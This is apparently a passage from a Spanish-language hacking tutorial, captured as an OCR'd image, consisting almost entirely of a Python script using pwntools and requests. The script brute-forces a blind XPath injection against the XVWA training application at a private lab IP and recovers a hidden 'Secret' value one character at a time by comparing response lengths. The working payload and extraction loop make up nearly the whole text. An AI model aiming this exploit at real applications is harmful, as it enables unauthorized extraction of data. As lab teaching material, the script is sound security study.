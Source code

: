 Entonces el **script** quedaría de la siguiente forma:

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters + ' '

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 19):
        for character in characters:
            post_data = {
                'search': "1' and substring(Secret,%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8676 and len(r.text) != 8677:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```
